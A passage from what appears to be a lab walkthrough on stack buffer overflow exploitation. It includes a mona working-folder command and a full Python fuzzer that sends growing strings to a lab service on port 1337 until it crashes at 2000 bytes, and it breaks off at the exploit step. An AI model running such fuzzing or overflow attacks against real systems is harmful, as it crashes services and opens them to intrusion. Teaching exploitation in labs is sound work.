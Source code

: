 ```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

* Create a file on Kali called <mark style="color:yellow;">00fuzzer.py</mark> with the following contents:

<pre><code><strong>#!/usr/bin/env python3
</strong>
import socket, time, sys

ip = "10.10.253.98"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
</code></pre>

### What does this script do?

* This fuzzer will send an increasingly long string of "A's"
* If the fuzzer is able to crash the program with that set of strings, the fuzzer will exit with an error message
* <mark style="color:yellow;">MAKE A NOTE OF THE LARGEST NUMBER OF BYTES THAT WERE SENT</mark>

### Running the script

<figure><img src="../../../.gitbook/assets/image (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

* We get an error message that the <mark style="color:yellow;">fuzzing crashed at 2000 bytes</mark>

## Crash Replication and Controlling EIP

* Create a file on Kali called <mark style="color:yellow;">01exploit.py</mark> with the following contents:

